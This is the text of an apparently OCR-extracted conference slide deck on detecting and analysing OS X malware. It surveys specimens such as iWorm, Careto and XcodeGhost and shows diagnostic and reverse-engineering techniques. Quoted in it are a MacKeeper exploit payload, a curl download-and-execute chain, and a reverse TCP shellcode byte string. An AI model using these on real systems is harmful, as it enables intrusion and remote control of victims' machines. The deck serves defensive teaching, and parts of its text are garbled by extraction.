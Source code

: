SESSION ID: HTA-W03F
Let's Play Doctor
Practical OS X Malware Detection & Analysis

Patrick Wardle
Director of Research at Synack @patrickwardle

WHOIS
security for the "leverages the best combination of humans an2d1tsetchcneonlotguyryto
discover security vulnerabilities in our customers' web apps, mobile apps, IoT devices and infrastructure endpoints"
care ehrob @patrickwardle by

OUTLINE
steps to a happier, healthier 2016

outbreaks

virology

diagnostics

analysis

}
health & happiness
thanks & @thomascarreedeidt
@claud_xiao @osxreverser

PART 0X1: OUTBREAKS
overview of recent OS X malware specimens

MALWARE ON OS X
yes; it exists and is getting more prevalent

"It doesn't get PC viruses. A Mac isn't susceptible to the thousands of viruses plaguing Windows-based computers." apple.com (2012)

2014: "nearly 1000 unique attacks on Macs; 25 major families"
-kasperksy

2015: OS X most vulnerable software by CVE count
-cve details

2015: "The most prolific year in history for OS X malware...5x more OS X malware appeared in 2015 than during the previous five years combined" 

OS X/IWORM
`standard' backdoor, providing survey, download/execute,

infected torrents

launch daemon plist

# fs_usage -w -f filesys 20:28:28.727871 open /Library/LaunchDaemons/com.JavaW.plist 20:28:28.727890 write B=0x16b
persisting

launch daemon

survey

download

execute

OS X/CRISIS (RCSMAC)
hackingteam's implant; collect all things!

persistence (leaked source code)

launch agent

rootkit component

intelligence collection

"HackingTeam Reborn;  Analysis of an RCS Implant Installer"

OS X/XCODEGHOST
application infector

infected :(

compile

app store

source

infected app

app installed

$ less Xcode.app/Contents/PlugIns/Xcode3Core.ideplugin/Contents/SharedSupport/Developer/Library/Xcode/Plug-ins/

CoreBuildTasks.xcplugin/Contents/Resources/Ld.xcspec

...

Name = ALL_OTHER_LDFLAGS;

DefaultValue = "$(LD_FLAGS) $(SECTORDER_FLAGS) $(OTHER_LDFLAGS) $(OTHER_LDFLAGS_$(variant)) $ (OTHER_LDFLAGS_$(arch)) $(OTHER_LDFLAGS_$(variant)_$(arch)) $(PRODUCT_SPECIFIC_LDFLAGS)  -force_load $(PLATFORM_DEVELOPER_SDK_DIR)/Library/Frameworks/CoreServices.framework/CoreServices";

modified LD.xcspec file

OS X/GENIEO (INKEEPR)
most prolific os x adware
fake installers
bundled with apps

}

browser extension(s)
AD s

OS X/BACKDOOR(?)
bot/backdoor that exploits MacKeeper

"[a] flaw in MacKeeper's URL handler implementation allows arbitrary remote code execution when a user visits a specially crafted webpage" -bae systems

exploit &

<script> window.location.href = 'com-zeobit-command:///i/ZBAppController/performActionWithHelperTask:

payload

arguments:/<BASE_64_ENCODED_STUB>';

...

curl -A 'Safari' -o /Users/Shared/dufh

http://<redacted>/123/test/qapucin/bieber/210410/cormac.mcr;

chmod 755 /Users/Shared/dufh;

cd /Users/Shared;

./dufh

launch agent

survey shell download execute

OS X/CARETO ('MASK')
`cyber-espionage backdoor'

encoded strings

lea mov call ... mov mov call

rdi, encodedServer ; "\x16d\n~\x1AcM!"... rsi, decodedServer __Dcd

phishing/exploits

rdi, decodedServer esi, cs:_port _sbd_connect
disassembly
launch agent

$ lldb OSX_Careto (lldb) target create "OSX_Careto" Current executable set to 'OSX_Careto' (x86_64).''  (lldb) b _Dcd Breakpoint 1: where = OSX_Careto`_Dcd,
...
$ (lldb) x/s decodedServer 0x100102b40: "itunes212.appleupdt.com"

[~/Library/LaunchAgents/ com.apple.launchport.plist]

debugging (decoding C&C)

PART 0X2: VIROLOGY
study of os x malware characteristics & commonalities

INFECTION VECTORS
method 0x1: via user-interaction

rogue "AV" products

???

fake installers/updates

poor naive users

fake codecs

infected torrents

INFECTION VECTORS
method 0x2: exploits
}"interested in buying zero-day vulnerabilities with RCE exploits for the latest
versions of ...Safari? ...exploits allow to embed and remote execute custom payloads and demonstrate modern [exploitation] techniques on OS X"  -V. Toropov (email to hackingteam)
;OSX x64 reverse tcp shell (131 bytes, shell-storm.org) ;"\x41\xB0\x02\x49\xC1\xE0\x18\x49\x83\xC8\x61\x4C\x89\xC0\x48" + ;"\x31\xD2\x48\x89\xD6\x48\xFF\xC6\x48\x89\xF7\x48\xFF\xC7\x0F" + ;"\x05\x49\x89\xC4\x49\xBD\x01\x01\x11\x5C\xFF\xFF\xFF\xFF\x41" + ;"\xB1\xFF\x4D\x29\xCD\x41\x55\x49\x89\xE5\x49\xFF\xC0\x4C\x89" + ;"\xC0\x4C\x89\xE7\x4C\x89\xEE\x48\x83\xC2\x10\x0F\x05\x49\x83" + ;"\xE8\x08\x48\x31\xF6\x4C\x89\xC0\x4C\x89\xE7\x0F\x05\x48\x83" + ;"\xFE\x02\x48\xFF\xC6\x76\xEF\x49\x83\xE8\x1F\x4C\x89\xC0\x48" + ;"\x31\xD2\x49\xBD\xFF\x2F\x62\x69\x6E\x2F\x73\x68\x49\xC1\xED" + ;"\x08\x41\x55\x48\x89\xE7\x48\x31\xF6\x0F\x05"
how the real hackers do it

PERSISTENCE
many options, few used

launch daemons & agents browser extensions & plugins

user login items
~20 techniques
[RSA 2015] 
"Malware Persistence on OS X"

FEATURES
dependent on the goals of the malware

[ criminal ]

[ espionage ]

ads

shell

keylogs

clicks

surveys downloads

video

money

exec's

audio

SUMMARY
the current state of OS X malware

 trojans/phishcinrigme  some exploits infection

espionage  'hide' in plain site  rootkits? not common
stealth

 well known methods  majority: launch items persistence

 poorly implemented  suffice for the job
features

 minimal obfuscation  trivial to detect/remove
self-defense

 occasional anti-AV  no psp detection
psp bypass

PART 0X3: DIAGNOSTICS
are you infected?

VISUALLY OBSERVABLE INDICATORS
more often than not, you're not infected...

unlikely malware

most not trivially possibly malwaorebservable!

"my computer is so slow" "it keeps crashing"

AD "there are tons of popups" s "my homepage and search
engine are weird"

"so many processes"

"my computer says its infected

VISUALLY OBSERVABLE INDICATORS
generic alerts may indicate the presence of malware

persistence (BlockBlock)

network access (LittleSnitch)

note: such tools do not attempt to directly detect malware perse...

STEP 0X1: KNOWN MALWARE
any known malware running on your system?
VT ratios
TaskExplorer ( +virus total integration)

STEP 0X2: SUSPICIOUS PROCESSES
any unrecognized binaries running on your system?
"global search" for:

suspic ious!
unsigned
unrec+ognized (by VT) "a+pple"

unsigned tasks 3rd-party tasks

STEP 0X3: SUSPICIOUS PERSISTENCE
any unrecognized binaries persisting on your system?
suspic ious!
unsigned
un+recognized (by VT "a+pple"

KnockKnock; enum. persistence

a suspicious launch

STEP 0X4: NETWORK I/O
odd ports or unrecognized connections?

or 'established' for connected sessions

iWorm ('JavaW') listening for attacker connection
# sudo lsof -i | grep ESTABLISHED

apsd 75

root TCP 172.16.44.128:49508->17.143.164.32:5223 (ESTABLISHED)

apsd 75

root TCP 172.16.44.128:49508->17.143.164.32:5223 (ESTABLISHED)

com.apple 1168 user TCP 172.16.44.128:49511->bd044252.virtua.com.br:https (ESTABLISHED)

JavaW 1184 root TCP 172.16.44.128:49532->188.167.254.92:51667 (ESTABLISHED)

iWorm connected to c&c server

STEP 0X5: SUSPICIOUS KEXTS, HIJACKED
countless other things to look for....
uncheck `'Show OS Kexts'
any suspicious kernel extensions? hijacked dylibs?
[DefCon 2015]
"DLL Hijacking on OS X? #@%& Yeah!"

PART 0X4: ANALYSIS
determine if something is malicious....or not!?

CODE-SIGNING
examine the binary's code signature

libtidy dylib flagged by VT

signed by apple: not malware!
$ codesign -dvv /usr/lib/libtidy.A.dylib  Format=Mach-O universal (i386 x86_64)
Authority=Software Signing Authority=Apple Code Signing Certification Authority Authority=Apple Root CA

use codesign to display a binary's signing info
ex: $ codesign -dvv <file>

libtidy is signed by apple proper
codesign -dvv OSX_Careto  OSX_Careto: code object is not signed at all
most malware; unsigned

GOOGLE THE HASH
may (quickly) tell you; known good || known bad
$ md5 appleUpdater MD5 (appleUpdater) = 2b30e1f13a648cc40c1abb1148cf5088
unknown hash ....might be odd

known hash (OSX/Careto)

 3rd-party binaries, may produce zero hits on google
 0% detection on virustotal doesn't mean 100% not malware

STRINGS
quickly triage a binary's functionality

$ strings -a OSX_Careto
reverse lookup of %s failed: %s bind(): %s connecting to %s (%s) [%s] on port %u executing: %s
cM!M> `W9_c [0;32m
strings; OSX/Careto

networking & exec logic
encoded strings

$ strings -a JavaW  $Info: This file is packed with the UPX executable packer $Id: UPX 3.91 Copyright (C) 1996-2013 the UPX Team.
strings; iWorm

use with the -a flag google interesting strings
packed (UPX)

FILE ATTRIBUTES
OS X natively support encrypted binaries
disassembling Finder.app
$ strings -a myMalware infectUser: ALOHA RSA! $ ./protect myMalware encrypted 'myMalware' $ strings -a myMalware  n^jd[P5{Q r_`EYFaJq07
encrypting the malware

encrypted with Blowfish
ourhardworkbythese wordsguardedplease dontsteal(c)AppleC
known malware: ~50% drop VT detection

FILE ATTRIBUTES
detecting encrypted binaries
//check all load commands for(int i = 0; i<[machoHeader[LOAD_CMDS] count]; i++) {
//grab load command loadCommand = [machoHeader[LOAD_CMDS] pointerAtIndex:i]; //check text segment if(0 == strncmp(loadCommand->segname, SEG_TEXT, sizeof(loadCommand->segname)) {
//check if segment is protected if(SG_PROTECTED_VERSION_1 == (loadCommand->flags & SG_PROTECTED_VERSION_1)) {
//FILE IS ENCRYPTED
detecting encryption
} unsigned +
encrypted

TaskExpl orer

FILE ATTRIBUTES
malware is often packed to 'hinder' detection/analysis

$ strings -a JavaW  Info: This file is packed with the UPX executable packer http://upx.sf.net Id: UPX 3.09 Copyright (C) 1996-2013 the UPX Team. All Rights Reserved.
iWorm (JavaW); packed
//count all occurrences for(NSUInteger i = 0; i < length; i++)
occurrences[0xFF & (int)data[i]]++;
//calc entropy for(NSUInteger i = 0; 
i < sizeof(occurrences)/sizeof(occurrences[0]); i++) {
//add occurrences to entropy if(0 != occurrences[i]) {
//calc ratio pX = occurrences[i]/(float)length;
//cumulative entropy entropy -= pX*log2(pX); }
generic packer detection

TaskExpl orer
view all packed tasks/dylibs

CLASSDUMP
extract class names, methods, & more...

$ class-dump RCSMac.app  @interface __m_MCore : NSObject {
NSString *mBinaryName; NSString *mSpoofedName; }
- (BOOL)getRootThroughSLI; - (BOOL)isCrisisHookApp:(id)arg1; - (BOOL)makeBackdoorResident; - (void)renameBackdoorAndRelaunch;
@end
RCSMac (osx/crisis)

$ class-dump Installer.app  @interface ICDownloader : 
NSObject <NSURLConnectionDelegate> {
NSURL *_URL; NSString *_destPath; long long _httpStatusCode; NSString *_suggestedName; }
- (void)startDownloading;
@interface NSURL (ICEncryptedFileURLProtocol) + (id)fileURLWithURL:(id)arg1; + (id)encryptedFileURLWithURL:(id)arg1;
@end
adware installer (InstallCore)

http://stevenygard.com/projects/class-dump/

DYNAMIC FILE I/O
quickly determine binaries file-related actions

$ man fs_usage FS_USAGE(1)

BSD General Commands Manual

fs_usage -- report system calls and page faults related to filesystem activity in real-time

fs_usage manpage

# fs_usage -w -f filesystem

open /Users/user/Library/LaunchAgents/com.apple.updater.plist

write F=2 B=0x4a





 open F=5

/Users/Shared/dufh

... chmod <rwxr-xr-x> /Users/Shared/dufh

 unlink

./mackeeperExploiter

file i/o (mackeeper exploiter)

persistence as launch agent (com.apple.updater.plist)
installation (/Users/ Shared/dufh)
self deletion, cleanup

NETWORK I/O
gain insight into the binary's network communications
note: C&C is (now) offline
"itunes212.appleupdt.com"
osx/careto in wireshark

odd dns queries

periodic beacons

(custom) encrypted traffic

VIRUSTOTAL SANDBOX
file i/o + network i/o, and more!

virus total portal file i/o (iWorm)

network i/o (iWorm)
"VirusTotal += Mac OS X execution"

blog.virustotal.com/2015/11/ virustotal-mac-os-x-execution.html

REVERSING OBJECTIVE-C
understand

connectedToInternet(void) proc near

mov mov lea mov call ...

rdi, cs:_OBJC_CLASS_$_NSURL rsi, cs:URLWithString ; "URLWithString:" rdx, cfstr_google ; "www.google.com" rax, cs:_objc_msgSend_ptr rax ; objc_msgSend

internet check (mackeeper exploiter)

arg name (for) objc_msgSend

0

RDI class

1

RSI method name

2

RDX 1st argument

3

RCX 2nd argument

4

R8 3rd argument

5

R9 4th argument

calling convention (system v amd64 abi)

objc_msgSend function

DECOMPILATION
there's an app for that!

connectedToInternet(void) proc near

mov mov lea mov call ...

rdi, cs:_OBJC_CLASS_$_NSURL rsi, cs:URLWithString_ rdx, cfstr_google ; "www.google.com" rax, cs:_objc_msgSend_ptr rax

hopper.app http://www.hopperapp.com

int connectedToInternet() {
rax = [NSURL URLWithString:@"http://www.google.com"]; rdx = rax;

var_38 = [NSData dataWithContentsOfURL:rdx]; if(var_38 != 0x0) {
var_1 = 0x1; } else {
var_1 = 0x0; } rax = var_1 & 0x1 & 0xff; return rax; }

decompilation; internet check (mackeeper exploiter)

DEBUGGING
using lldb; os x's debugger

$ lldb newMalware (lldb) target create "/Users/patrick/malware/newMalware" Current executable set to '/Users/patrick/malware/newMalware' (x86_64).

beginning a debugging session

see: "Gdb to LLDB Command

command r

description launch (run) the process

Map"

example

b

breakpoint on function

b system

br s -a <addr> breakpoint on a memory add br s -a 0x10001337

si/ni

step into/step over

po

print objective-C object

po $rax

reg read

print all registers

common lldb commands

DEBUGGING DETECTION
os x anti-debugging techniques

call mov mov lea lea lea mov xor xor call mov test jz mov call

_getpid [rbp+var_34], eax [rbp+var_2D0], 288h rdi, [rbp+var_40] rdx, [rbp+var_2C8] rcx, [rbp+var_2D0] esi, 4 r8d, r8d r9d, r9d _sysctl eax, [rbp+var_2A8] ah, 8 short notDebugged rdi, [rbx] _remove

anti-debug (mackeeper exploiter)

process flags (debugged)

"Analyzing the Anti-Analysis Logic, of an Adware Installer"
//debugger flag #define P_TRACED 0x00000800
//management info base (`mib') mib[0] = CTL_KERN; mib[1] = KERN_PROC; mib[2] = KERN_PROC_PID; mib[3] = getpid();
//get process info sysctl(mib, sizeof(mib)/sizeof(*mib), &info, &size, NULL, 0);
//check flags to determine if debugged if(P_TRACED == (info.kp_proc.p_flag & P_TRACED)) {
//process is debugged!
//self delete remove(path2Self); }
anti-debug pseudo-code

ENABLING KERNEL DEBUGGING
for analyzing kernel extensions and rootkit components

disable SIP (in recovery mode; +r)

start debugger (lldb)

# lldb (lldb) target create /Library/Developer/KDKs/ KDK_10.11.1_15B42_.kdk/System/Library/Kernels/kernel

enable debugging
# nvram boot-args="debug=0x141 pmuflags=1 -v"
install appropriate `kernel debug kit'

connect and debug
(lldb) kdp-remote <VM IP addr> Version: Darwin Kernel Version 15.0.0: Wed Aug 26 16:57:32 PDT 2015; root:xnu-3247.1.106~1/RELEASE_X86_64;   (lldb) image list [ 0] 37BC582F-8BF4-3F65-AFBB-ECF792060C68 0xffffff8007000000 /Library/Developer/KDKs/ KDK_10.11_15A284.kdk/System/Library/Kernels/kernel

"Kernel Debugging a Virtualized  OS X Image"

PART 0X5: HEALTH & HAPPINESS
how do i protect my personal macs?

APPLE'S OS X SECURITY MITIGATIONS?
gatekeeper, xprotect, SIP, code-signing, et al...

"Security & privacy are fundamental to the design of all our hardware, software, and services" -tim cook

 "Gatekeeper Exposed"
(Shmoocon)

 "Writing Bad@ss OS X Malware" 
(Blackhat)

 "Attacking the XNU Kernel in El Capitan"
(BlackHat)
 "OS X El Capitan-Sinking the S/h\IP"  "Memory Corruption is for Wussies!"
(SysScan)

DEMO(GATEKEEPER BYPASS)

fully patched OS X

only 4 launch items

gatekeeper enabled

no 'java' processes

OS X LOCKDOWN
hardens OS X & reduces its attack surface
github.com/SummitRoute/osxlockdown
# ./osxlockdown [PASSED] Enable Auto Update [PASSED] Disable Bluetooth [PASSED] Disable infrared receiver [PASSED] Disable AirDrop ...  osxlockdown 0.9 Final Score 86%; Pass rate: 26/30
osxlockdown
S. Piper (@0xdabbad00)
"built to audit & remediate, security configuration settings on OS X 10.11" -S. Piper

OS X SECURITY TOOL
LittleSnitch Firewall

'snitching

trivial to bypass
yes, stay securitytuvunlneeradb!ilities?

"if [LittleSnitch] is found, the malware [OSX/DevilRobber.A] will skip installation and proceed to execute the clean software" fSecure.com

MY PERSONAL SECURITY TOOLS
Objective-See, because "sharing is caring" :)

+

I should write some OS X security tools to protect

my Mac

...as they try .t.o..saenldl share 'ethminfgrese! ly :)
"No one is going to provide you a quality service for

nothing. 

If you're not paying, you're the product." -fSecure

SECURITY TOOLS
Objective-See
TaskExplorer

specimens to play with!
Hijack Scanner

KnockKnock BlockBlock KextViewr

Ostiarius

Lockdown

CONCLUSIONS
wrapping this all up...

CONCLUSIONS & APPLICATION

learned about:

scan & protect!

os x malware (iWorm, Crisis, Genieo, etc.)
generic detection & analysis

little snitch/firewall

patrick@synack.co m
@patrickwardle

'focus on session' today @ 2:10 PM, west room

credits

- iconmonstr.com - http://wirdou.com/2012/02/04/is-that-bad-doctor/

images 

resources

- thesafemac.com - "Mac OS X & iOS Internals", Jonathan Levin - http://researchcenter.paloaltonetworks.com/2015/09/more-details-on-the-xcodeghost-malware-
and-affected-ios-apps/ - http://baesystemsai.blogspot.ch/2015/06/new-mac-os-malware-exploits-mackeeper.html - http://kasperskycontenthub.com/wp-content/uploads/sites/43/vlpdfs/unveilingthemask_v1.0.pdf


